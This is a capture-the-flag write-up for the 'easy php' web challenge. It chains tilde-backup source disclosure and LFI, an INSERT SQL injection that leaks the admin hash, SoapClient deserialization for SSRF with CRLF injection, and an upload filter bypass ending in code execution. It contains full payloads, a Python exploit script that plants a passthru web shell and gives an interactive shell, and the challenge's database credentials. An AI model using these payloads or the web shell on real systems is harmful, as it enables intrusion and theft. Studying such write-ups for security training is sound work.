

## easy php (Web, 540pt)

> Not racing, just enjoying the slow pace of life :)
> 
> http://47.97.221.96
> 
> Mirror: http://47.97.221.96:23333/
>
> [Dockerfile](a35ad7b6-56df-4cfc-bcba-089b83a8544b.Dockerfile)



This was one of the toughest challenges I've ever worked on a CTF and it required the exploitation of several bugs in order to reach the flag, so let's start with an overview.

* Arbitrary file disclosure through backup files (`~`) and LFI
* INSERT SQLi in publish functionality to exfiltrate admin credentials through un/serialized PHP object
* SSRF (CRLF injection) through unsafe object deserialization to "bypass" `$_SERVER['REMOTE_ADDR'] === '127.0.0.1'` condition and get authenticated admin session
* File upload filtering bypass using PHP `<?=` shorthand
* Bruteforce predictable uploaded filename (`time().rand(1,100)`)
* Bypass Content-Type restrictions and execute PHP code using LFI


#### Application source code

Initially, we quickly discover that we can get the source code of the application by appending the tilde `~` in filenames.

```
GET /index.php~
GET /user.php~
GET /config.php~
```

Looking at the source we see that we can also get the source code for the view files since they have no `.php` extension and their code is just echoed back.

```
GET /views/index
GET /views/login
GET /views/logout
GET /views/register
GET /views/profile
GET /views/publish
GET /views/delete
GET /views/phpinfo
```

Also, there is a LFI vulnerability in `index.php` which allows us to leak arbitrary files from the filesystem. We choose to read the files specified in the provided dockerfile.

```
GET /index.php?action=../../../app/run.sh
GET /index.php?action=../../../home/nu1lctf/clean_danger.sh
```

All files can be found in the [src](src) folder.

After reading the source we have the following layout for the database.

```
---------------------------           -----------------------------
| ctf_users               |           | ctf_user_signature        |
|-------------------------|           |---------------------------|
| id            | int     | PK ---|   | id        | int           | PK
| username      | varchar |       |---| userid    | int           | FK
| password      | varchar |           | username  | varchar       |
| ip            | varchar |           | signature | varchar       |
| is_admin      | bool    |           | mood      | int           |
| allow_diff_ip | bool    |           -----------------------------
---------------------------
```

```
Database: nu1lctf

# Credentials found in /run.sh
user: root
pass: Nu1Lctf%#~:p

# Credentials found in /app/config.php
user: Nu1L
pass: Nu1Lpassword233334
```


#### Solving the captcha

To register and login, the application generates a captcha that we must solve. Look at the corresponding views we see that the captcha is actually the first 5 characters of `md5(rand_s(3))`.

```php
$code = rand_s(3);
$md5c = substr(md5($code),0,5);
$c_view = "substr(md5(?), 0, 5) === $md5c";
$_SESSION['code'] = $md5c;
```

Function `rand_s()` is defined in config.php and is shown below.

```php
function rand_s($length = 8)
{
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|';
    $password = '';
    for ( $i = 0; $i < $length; $i++ )
    {
        $password .= $chars[ mt_rand(0, strlen($chars) - 1) ];
    }
    return $password;
}
```

We can simply precalculate all MD5 hashes (`92**3 == 778688`) and save them to a file which we can later use to solve all captchas.

```python
import hashlib
from itertools import product

c = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|'
captchas = [''.join(i) for i in product(c, repeat=3)]

print '[+] Genering {} captchas...'.format(len(captchas))
with open('captchas.txt', 'w') as f:
    for k in captchas:
        f.write(hashlib.md5(k).hexdigest()+' --> '+k+'\n')
```


#### Getting admin credentials

Now that we have a user account let's go to the more serious staff. The application actually exposes two main functionalities to authenticated non-admin users.

**Publish:**

```
POST /index.php?action=publish HTTP/1.1
Host: 47.97.221.96:23333
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Connection: close

signature=XXX&mood=0
```

**Allow sign in from different IP:**

```
POST /index.php?action=profile HTTP/1.1
Host: 47.97.221.96:23333
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Connection: close

adio=1
```

Code review reveals that the `signature` parameter in publish requests is vulnerable to INSERT SQLi.

```php
function publish()
{
    //..
    $mood = addslashes(serialize(new Mood((int)$_POST['mood'],get_ip())));
    $db = new Db();
    @$ret = $db->insert(array('userid','username','signature','mood'),'ctf_user_signature',array($this->userid,$this->username,$_POST['signature'],$mood));
    //..
}
```

The corresponding functions from config.php are given below.

```php
private function get_column($columns){
    if(is_array($columns))
        $column = ' `'.implode('`,`',$columns).'` ';
    else
        $column = ' `'.$columns.'` ';
    return $column;
}

public function insert($columns,$table,$values){
    $column = $this->get_column($columns);
    $value = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$this->get_column($values)).')';
    $nid =
    $sql = 'insert into '.$table.'('.$column.') values '.$value;
    $result = $this->conn->query($sql);
    return $result;
}
```

We can use a common SQLi payload for insert statements but in order to cope with the `preg_replace`, we must use backticks (`` ` ``) in place of single quotes (`'`). So, sending the following payload:

```
mood=0&signature=a`, `mood`); -- -
```

will result in the following MySQL query:

```
insert into ctf_user_signature( `userid`,`username`,`signature`,`mood` )
values ( '1','foo','a', 'mood'); -- -`,'0' )
```

Next step, is to extract data. In the index view we see that the `showmess()` function is used retrieve data from the `ctf_user_signature` table and present them to us. So, this a good place to look at what we should inject. The relevant code is given below.

```php
function showmess()
{
    //..
    $db = new Db();
    @$ret = $db->select(array('username','signature','mood','id'),'ctf_user_signature',"userid = $this->userid order by id desc");
    if($ret) {
        $data = array();
        while ($row = $ret->fetch_row()) {
            $sig = $row[1];
            $mood = unserialize($row[2]);
            $country = $mood->getcountry();
            $ip = $mood->ip;
            $subtime = $mood->getsubtime();
            $allmess = array('id'=>$row[3],'sig' => $sig, 'mood' => $mood, 'ip' => $ip, 'country' => $country, 'subtime' => $subtime);
            array_push($data, $allmess);
        }
        $data = json_encode(array('code'=>0,'data'=>$data));
        return $data;
    }
    //..
}
```

So, the mood must be a valid serialized `Mood` object in order to avoid PHP throwing fatal errors upon deserialization and being able to exfiltrate admin's password. We must also take into account that the `addslahes()` function must be applied to the serialized object we inject. Below, a serialized `Mood` is given.

```
O:4:"Mood":3:{
    s:4:"mood";i:0;
    s:2:"ip";s:9:"127.0.0.1";
    s:4:"date";i:1520664478;
}
```

I decided to use the `mood` parameter to extract data one byte at a time since it is an integer and it doesn't require a length to be specified in the object; thus it will be useful to extract any data we may need. We could definitely find other ways to extract data, also taking into account that the given endpoint seemed to be JSON injectable! :P

```
http://ip.taobao.com/service/getIpInfo.php?ip=x%22,%22country%22,%22pwn%22}}//
```

But anyway, let's ignore that. We have constructed our final injection payload as given below.

```
a`, (select concat(`O:4:\"Mood\":3:{s:4:\"mood\";i:`,ord(substr(password,1,1)),`;s:2:\"ip\";s:9:\"127.0.0.1\";s:4:\"date\";i:1520664478;}`) from ctf_users where is_admin=1 limit 1)); -- -
```

After our injection is inserted into the database, we can extract the `mood` bytes from the image filenames at index view. The solution is automated in the [solve-sqli.py](solve-sqli.py) script.

```
❯❯❯ python solve_sqli.py
[+] register(o3yipuuktb, ekmhxqhd13)
[+] login(o3yipuuktb, ekmhxqhd13)
[+] user session => que3r92vlqdsso9f6r81djvn51
[+] admin hash => 2533f492a796a3227b0c6f91d102cc36
```

The MD5 could not be cracked with either rockyou or any well-known online service but during the CTF admins provided an endpoint which could be used to "crack" the hash.

```
❯❯❯ curl http://47.52.137.90:20000/getmd5.php?md5=2533f492a796a3227b0c6f91d102cc36
nu1ladmin
```

And we have admin credentials.

```
admin:nu1ladmin
```


#### SSRF through unsafe object deserialization

Having acquired admin credentials, we try to login but we receive the message `You can only login at the usual address`. Looking into the relevant code, it seems that the administrator entry in the `ctf_users` table disallows logins from different IPs and the only IP address allowed is `127.0.0.1`.

```php
function login()
{
    //...
    $user = $ret->fetch_row();
    if($user) {
        if ($user[4] == '0' && $user[2] !== get_ip())
            die("You can only login at the usual address");
        //...
    }
    //...
}
```

During login, our IP address is obtained using the `get_ip()` function (as defined in config.php), and unfortunately there is no way to bypass it using HTTP request headers.

```php
function get_ip(){
    return $_SERVER['REMOTE_ADDR'];
}
```

At the time I reached that point, the challenge had still 0 solves so I started thinking that we may need to find a way to spoof `REMOTE_ADDR`, so I spent several hours reading the relevant code in the PHP source. Of course, I had no luck with it! Taking into account the hints released by the challenge author, we were pointed towards finding a non-obivous SSRF to access the admin account.

After spending many hours stuck at this point, we started thinking that we have complete control over the object being deserialized and this is absolutely alarming. However, there are no _magic methods_ defined in the `Mood` class and our IP was always retrieved dynamically. As such, we thought that we may be able to use another PHP object that will somehow benefit us. Looking at the `showmess()` function where objects get deserialized, we have the following.

```php
function showmess()
{
    //...
    $db = new Db();
    @$ret = $db->select(array('username','signature','mood','id'),'ctf_user_signature',"userid = $this->userid order by id desc");
    if($ret) {
        $data = array();
        while ($row = $ret->fetch_row()) {
            $sig = $row[1];
            $mood = unserialize($row[2]);
            $country = $mood->getcountry();
            $ip = $mood->ip;
            $subtime = $mood->getsubtime();
            $allmess = array('id'=>$row[3],'sig' => $sig, 'mood' => $mood, 'ip' => $ip, 'country' => $country, 'subtime' => $subtime);
            array_push($data, $allmess);
        }
        $data = json_encode(array('code'=>0,'data'=>$data));
        return $data;
    }
    else
        return false;
    //...
}
```

After deserialization, we see the function `getcountry()` called on the object. Initial thought was to enumerate all PHP objects that define a `getcountry()` method and see if there are any vulnerabilities we could exploit there. Unfortunately, there are no such classes. So, looking the other way around, it seems that there is a _magic method_ triggered upon calls to undefined methods. As we read in the [PHP documentation](https://secure.php.net/manual/en/language.oop5.overloading.php#object.call), this is the `__call()` method.

> `__call()` is triggered when invoking inaccessible methods in an object context.

The following code was used to enumerate all PHP classes that define the `__call()` method.

```php
<?php

$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if ($method === '__call') {
            print $class . '::' . $method . "\n";
        }
    }
}
```

We get a single result.

```
Soapclient::__call()
```

Perfect, a class to make SOAP requests! That sounds exactly what we need. Doing some research on `SoapClient` we see that parameters `uri` and `user_agent` are both vulnerable to **CRLF injection** and can be exploited to trigger SSRF. As we discover later, depending on which parameter we choose to inject, a different approach should be followed in order to form valid HTTP requests according to the specification.

Testing locally to trigger a call with `SoapClient` we receive the following request.

```
POST / HTTP/1.1
Host: 127.0.0.1:8080
Connection: Keep-Alive
User-Agent: PHP-SOAP/7.1.12
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1:8080/#getcountry"
Content-Length: 392

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1:8080/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

Initially, only the `uri` parameter was chosen to craft our exploit. So, our test code is modified as shown below to see where the injection takes place in the HTTP request.

```php
<?php
$p = array(
    'uri' => "http://127.0.0.1:8080/\x0d\x0aURI_INJECTION",
    'location' => 'http://127.0.0.1:8080/'
);
// Set the first parameter of SoapClient to null,
// in order to run in non-WSDL mode.
$soap = new SoapClient(null, $p);
$serial_soap = serialize($soap);
$unserial_soap = unserialize($serial_soap);
$unserial_soap->getcountry();
```

The CRLF injection has been reflected in the request.

```
POST / HTTP/1.1
Host: 127.0.0.1:8080
Connection: Keep-Alive
User-Agent: PHP-SOAP/7.1.12
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1:8080/
URI_INJECTION#getcountry"
Content-Length: 407

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1:8080/
URI_INJECTION" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

We must adapt our payload to meet the following requirements:

1. The `Content-Type` must be set to `application/x-www-form-urlencoded`
2. The `Content-Length` must be set to the length of the data we want to POST
3. The requests must include our POST data
4. The default SOAP envelope and remaining HTTP request headers must be somehow ignored and not affect the login request

The approach we followed to match all requirements was to craft 3 separate requests with the one in the middle (the only one we will completely control) being the login request. The _trick_ here is to terminate the first request using the `Content-Length: 0` request header, which will terminate it and allow the second request to be read separately. The last request will be used to discard all unwanted data, such as the remaining HTTP headers and the SOAP envelope.

The SSRF payload up to this point, looks like this:

```
http://127.0.0.1/
Content-Length:0


POST /index.php?action=login HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

username=admin&password=nu1ladmin&code=XXX

POST /foo
```

But there are still 2 problems we must overcome:

1. How do we get any response back from the server?
2. How do we solve the captcha through the SSRF?

Fortunately, there is a simple solution that will address both issues. We can pre-generate a session from our browser, solve the captcha locally, and send the `PHPSESSID` cookie alongside the request as well as the solution to the capctha (solution to the captcha is tied to our session). If the SSRF succeeds, the `PHPSESSID` will be an admin authenticated session.

The following code has been used to generate the serialized object that will trigger our SSRF.

```php
<?php
$p = array(
    'uri' => "http://127.0.0.1/\x0d\x0aContent-Length: 0\x0d\x0a\x0d\x0a\x0d\x0aPOST /login HTTP/1.1\x0d\x0aHost: 127.0.0.1\x0d\x0aCookie: PHPSESSID=XXX\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0aContent-Length: 42\x0d\x0a\x0d\x0ausername=admin&password=nu1ladmin&code=XXX\x0d\x0a\x0d\x0aPOST /foo",
    'location' => 'http://127.0.0.1/'
);
$soap = new SoapClient(null, $p);
$serial_soap = serialize($soap);
var_dump($serial_soap);
```

And this is the final payload sent to the server.

```
POST /index.php?action=publish HTTP/1.1
Host: 47.97.221.96:23333
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.18.1
Cookie: PHPSESSID=rfiaqul0ek01lgvsbgg1pls252
Content-Length: 889
Content-Type: application/x-www-form-urlencoded

mood=0&signature=a%60%2C+0x4f3a31303a22536f6170436c69656e74223a343a7b733a333a22757269223b733a3237313a22687474703a2f2f3132372e302e302e312f0d0a436f6e74656e742d4c656e6774683a300d0a0d0a0d0a504f5354202f696e6465782e7068703f616374696f6e3d6c6f67696e20485454502f312e310d0a486f73743a203132372e302e302e310d0a436f6f6b69653a205048505345535349443d343272726d313632766d3266387372756a626b697669357538370d0a436f6e74656e742d547970653a206170706c69636174696f6e2f782d7777772d666f726d2d75726c656e636f6465640d0a436f6e74656e742d4c656e6774683a2034320d0a0d0a757365726e616d653d61646d696e2670617373776f72643d6e75316c61646d696e26636f64653d4928290d0a0d0a504f5354202f666f6f0d0a223b733a383a226c6f636174696f6e223b733a33393a22687474703a2f2f3132372e302e302e312f696e6465782e7068703f616374696f6e3d6c6f67696e223b733a31353a225f73747265616d5f636f6e74657874223b693a303b733a31333a225f736f61705f76657273696f6e223b693a313b7d%29%3B+--+
```


#### Getting RCE through unsafe file upload

Admin accounts have access to upload functionality, which we must obviously target to get RCE on the server. The related functions are given below.

```php
// index.php
function publish()
{
    //..
    if(isset($_FILES['pic'])) {
        if (upload($_FILES['pic'])){
            echo 'upload ok!';
            return true;
        }
        else {
            echo "upload file error";
            return false;
        }
    }
    //..
}
```

```php
// config.php
function upload($file){
    $file_size  = $file['size'];
    if($file_size>2*1024*1024) {
        echo "pic is too big!";
        return false;
    }
    $file_type = $file['type'];
    if($file_type!="image/jpeg" && $file_type!='image/pjpeg') {
        echo "file type invalid";
        return false;
    }
    if(is_uploaded_file($file['tmp_name'])) {
        $uploaded_file = $file['tmp_name'];
        $user_path =  "/app/adminpic";
        if (!file_exists($user_path)) {
            mkdir($user_path);
        }
        $file_true_name = str_replace('.','',pathinfo($file['name'])['filename']);
        $file_true_name = str_replace('/','',$file_true_name);
        $file_true_name = str_replace('\\','',$file_true_name);
        $file_true_name = $file_true_name.time().rand(1,100).'.jpg';
        $move_to_file = $user_path."/".$file_true_name;
        if(move_uploaded_file($uploaded_file,$move_to_file)) {
            if(stripos(file_get_contents($move_to_file),'<?php')>=0)
                system('sh /home/nu1lctf/clean_danger.sh');
            return $file_true_name;
        }
        else
            return false;
    }
    else
        return false;
}
```

This is what happens on file uploads:

* All uploaded files must be < 2MB
* Mime-type must be either `image/jpeg` or `image/pjpeg` (easy to spoof)
* Files are uploaded in `adminpic/` folder with the name `$file_true_name.time().rand(1,100).'.jpg'`
* **After a file has been uploaded**, it will be removed if it has `<?php` in its contents.

This is very easy to bypass and there will be only 3 digits to bruteforce in order to access the uploaded file. We can just use the `<?=` PHP shorthand to bypass the `stripos()` filter - even though we see that `short_open_tag` has been disabled in the PHP configuration (server was running PHP-5.5.9).

```
❯❯❯ curl -sS  'http://47.97.221.96:23333/index.php?action=phpinfo' | grep short_open_tag
short_open_tag => Off => Off
```

As we read in the [PHP documentation](https://secure.php.net/manual/en/ini.core.php#ini.short-open-tag):

> Since PHP 5.4.0, `<?=` is always available.

Unfortunately, the `if` condition (`if(stripos(file_get_contents($move_to_file),'<?php')>=0)`) is **broken** (to our bad) and will always evaluate to `true` irregardless of the content we upload.

```
❯❯❯ php -r "var_dump(stripos('no_tag_here', '<?php'));"
bool(false)
❯❯❯ php -r 'var_dump(FALSE >= 0);'
bool(true)
```

```
(╯°□°）╯︵ ┻━┻
```

However, for some reason (that I really don't understand) that didn't work on the application. Even though it will always evaluate to `true`, our shell was not removed from the server if the `<?=` shorthand was used and we could still access the uploaded file (if anybody is aware of why that happens, please let me know).

Still, there is another way to bypass that mitigation. As we read in the `clean_danger.sh` script, it removes files using wildcard expansion.

```bash
cd /app/adminpic/
rm *.jpg
```

So, if we upload a file with name `-NNN`, `rm` will fail and our file will not be removed. The first approach was used during the CTF.

Last step, is to bruteforce the uploaded filename and see if we can get our PHP code to execute from within the `adminpic` folder taking into account that we can't avoid the addition of the `.jpg` extension.

```php
$file_true_name = $file_true_name.time().rand(1,100).'.jpg';
```

In order to accurately bruteforce `$file_true_name` we remove last digit from `time()` (which is going to be the timestamp upon file upload) and we will find the uploaded file with max 1100 requests.

**Note:** In the application source, we mentioned that a timezone is being set at config.php (`date_default_timezone_set("PRC")`). However, as we read in the [PHP documentation](https://secure.php.net/manual/en/function.time.php#100220), the `time()` function will always return results in UTC.

Our bruteforce script worked as expected and we were able to access the uploaded file.


Nonetheless, the `Content-Type` was set to `image/jpeg` and our PHP code was not executing. So, we tied the LFI vulnerability to include the uploaded file and get our code to execute.

The whole solutions has been automated in the [solve_ssrf_rce.py](solve_ssrf_rce.py) script.

```python
import re
import sys
import string
import random
import requests
import subprocess
from itertools import product

_target = 'http://47.97.221.96:23333/'
_action = _target + 'index.php?action='

def get_creds():
    username = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    password = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    return username, password

def solve_code(html):
    code = re.search(r'Code\(substr\(md5\(\?\), 0, 5\) === ([0-9a-f]{5})\)', html).group(1)
    solution = subprocess.check_output(['grep', '^'+code, 'captchas.txt']).split()[2]
    return solution

def register(username, password):
    resp = sess.get(_action+'register')
    code = solve_code(resp.text)
    sess.post(_action+'register', data={'username':username,'password':password,'code':code})
    return True

def login(username, password):
    resp = sess.get(_action+'login')
    code = solve_code(resp.text)
    sess.post(_action+'login', data={'username':username,'password':password,'code':code})
    return True

def publish(sig, mood):
    return sess.post(_action+'publish', data={'signature':sig,'mood':mood})#, proxies={'http':'127.0.0.1:8080'})

def get_prc_now():
    # date_default_timezone_set("PRC") is not important
    return subprocess.check_output(['php', '-r', 'date_default_timezone_set("PRC"); echo time();'])

def get_admin_session():
    sess = requests.Session()
    resp = sess.get(_action+'login')
    code = solve_code(resp.text)
    return sess.cookies.get_dict()['PHPSESSID'], code

def brute_filename(prefix, ts, sessid):
    ds = [''.join(i) for i in product(string.digits, repeat=3)]
    ds += [''.join(i) for i in product(string.digits, repeat=2)]
    # find uploaded file in max 1100 requests
    for d in ds:
        f = prefix + ts + d + '.jpg'
        resp = requests.get(_target+'adminpic/'+f, cookies={'PHPSESSID':sessid})
        if resp.status_code == 200:
            return f
    return False

print '[+] creating user session to trigger ssrf'
sess = requests.Session()

username, password = get_creds()

print '[+] register({}, {})'.format(username, password)
register(username, password)

print '[+] login({}, {})'.format(username, password)
login(username, password)

print '[+] user session => ' + sess.cookies.get_dict()['PHPSESSID']

print '[+] getting fresh session to be authenticated as admin'
phpsessid, code = get_admin_session()

ssrf = 'http://127.0.0.1/\x0d\x0aContent-Length:0\x0d\x0a\x0d\x0a\x0d\x0aPOST /index.php?action=login HTTP/1.1\x0d\x0aHost: 127.0.0.1\x0d\x0aCookie: PHPSESSID={}\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0aContent-Length: 42\x0d\x0a\x0d\x0ausername=admin&password=nu1ladmin&code={}\x0d\x0a\x0d\x0aPOST /foo\x0d\x0a'.format(phpsessid, code)
mood = 'O:10:\"SoapClient\":4:{{s:3:\"uri\";s:{}:\"{}\";s:8:\"location\";s:39:\"http://127.0.0.1/index.php?action=login\";s:15:\"_stream_context\";i:0;s:13:\"_soap_version\";i:1;}}'.format(len(ssrf), ssrf)
mood = '0x'+''.join(map(lambda k: hex(ord(k))[2:].rjust(2, '0'), mood))

payload = 'a`, {}); -- -'.format(mood)

print '[+] final sqli/ssrf payload: ' + payload

print '[+] injecting payload through sqli'
resp = publish(payload, '0')

print '[+] triggering object deserialization -> ssrf'
sess.get(_action+'index')#, proxies={'http':'127.0.0.1:8080'})

print '[+] admin session => ' + phpsessid

# switching to admin session
sess = requests.Session()
sess.cookies = requests.utils.cookiejar_from_dict({'PHPSESSID': phpsessid})

print '[+] uploading stager'
shell = {'pic': ('kkk.jpg', '<?=$c=fopen("/app/wshell.php","w");fwrite($c,"<?=passthru(\$_GET[0]);?>");?>', 'image/jpeg')}
resp = sess.post(_action+'publish', files=shell)#, proxies={'http':'127.0.0.1:8080'})
prc_now = get_prc_now()[:-1]  # get epoch immediately

if 'upload ok' not in resp.text:
    print '[-] failed to upload shell, check admin session manually'
    sys.exit(0)

print '[+] bruteforcing uploaded file...'
stager = brute_filename('kkk', prc_now, phpsessid)

if not stager:
    print '[-] cannot find uploaded file, try again :('
    sys.exit(0)

print '[+] stager => {}../adminpic/{}'.format(_action, stager)
resp = sess.get(_action+'../adminpic/'+stager)

shell = _target+'wshell.php'
print '[+] shell => {}\n'.format(shell)

while True:
    cmd = raw_input('$ ').strip()
    if cmd == 'exit' or cmd == 'quit':
        break
    resp = requests.get('{}?0={}'.format(shell, cmd))
    print resp.text
```

```
❯❯❯ python solve_ssrf_rce.py
[+] creating user session to trigger ssrf
[+] register(sttozcf7wn, u4t6s3m5ym)
[+] login(sttozcf7wn, u4t6s3m5ym)
[+] user session => 0tn8db2fpp79rj68cdbq6thi13
[+] getting fresh session to be authenticated as admin
[+] final sqli/ssrf payload: a`, 0x4f3a31303a22536f6170436c69656e74223a343a7b733a333a22757269223b733a3237313a22687474703a2f2f3132372e302e302e312f0d0a436f6e74656e742d4c656e6774683a300d0a0d0a0d0a504f5354202f696e6465782e7068703f616374696f6e3d6c6f67696e20485454502f312e310d0a486f73743a203132372e302e302e310d0a436f6f6b69653a205048505345535349443d343272726d313632766d3266387372756a626b697669357538370d0a436f6e74656e742d547970653a206170706c69636174696f6e2f782d7777772d666f726d2d75726c656e636f6465640d0a436f6e74656e742d4c656e6774683a2034320d0a0d0a757365726e616d653d61646d696e2670617373776f72643d6e75316c61646d696e26636f64653d4928290d0a0d0a504f5354202f666f6f0d0a223b733a383a226c6f636174696f6e223b733a33393a22687474703a2f2f3132372e302e302e312f696e6465782e7068703f616374696f6e3d6c6f67696e223b733a31353a225f73747265616d5f636f6e74657874223b693a303b733a31333a225f736f61705f76657273696f6e223b693a313b7d); -- -
[+] injecting payload through sqli
[+] triggering object deserialization -> ssrf
[+] admin session => ls62913aenuq4vvqcoftkb03o4
[+] uploading stager
[+] bruteforcing uploaded file...
[+] stager => http://47.97.221.96:23333/index.php?action=../adminpic/kkk152075889095.jpg
[+] shell => http://47.97.221.96:23333/wshell.php

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And up to that point we realized that the challenge author wants to ruin our lives! The flag was not stored anywhere in the filesystem. Doing some more enumeration we recall that we have 2 sets of credentials for the database, including `root`.

```
$ printf 'TnUxTGN0ZiUjfjpw' | base64 -d > dbpass.txt
$ mysql -uroot -p$(cat dbpass.txt) -e "use flag; select flag from flag"
flag
N1CTF{php_unserialize_ssrf_crlf_injection_is_easy:p}
```


## References

* https://www.slideshare.net/MailRuGroup/security-meetup-22-php-unserialize-exploiting
* https://www.ptsecurity.com/upload/iblock/dac/daca495893852753dac1d0b17f51df19.pdf
* https://www.youtube.com/watch?v=5AdVQzUB6iM
* http://lab.truel.it/php-object-injection-the-dirty-way/
